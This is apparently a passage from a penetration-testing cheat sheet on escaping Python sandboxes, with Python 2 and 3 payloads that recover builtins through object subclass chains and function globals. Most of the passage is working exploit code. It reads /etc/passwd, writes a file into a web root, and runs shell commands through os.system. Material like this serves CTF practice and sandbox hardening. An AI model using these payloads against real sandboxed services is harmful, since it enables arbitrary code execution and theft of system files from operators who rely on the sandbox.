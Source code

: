 In the following examples you can observe how to **abuse** some of this "**benign**" modules loaded to **access** **dangerous** **functionalities** inside of them.

**Python2**

```python
#Try to reload __builtins__
reload(__builtins__)
import __builtin__

# Read recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
# Write recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

# Execute recovering __import__ (class 59s is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('ls')
# Execute (another method)
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('ls')
# Execute recovering eval symbol (class 59 is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]["eval"]("__import__('os').system('ls')")

# Or you could obtain the builtins from a defined function
get_flag.__globals__['__builtins__']['__import__']("os").system("ls")
```

#### Python3

```python
# Obtain builtins from a globally defined function
## https://docs.python.org/3/library/functions.html
print.__self__
dir.__self__
globals.__self__
len.__self__

# Obtain the builtins from a defined function
get_flag.__globals__['__builtins__']

# Get builtins from loaded clases
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"]
```

[**Below there is a bigger function**](./#recursive-search-of-builtins-globals) to find tens/**hundreds** of **places** were you can find the **builtins**.

#### Python2 and Python3

```python
# Recover __builtins__ and make eveything easier
__builtins__= [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
__builtins__["__import__"]('os').system('ls')
```
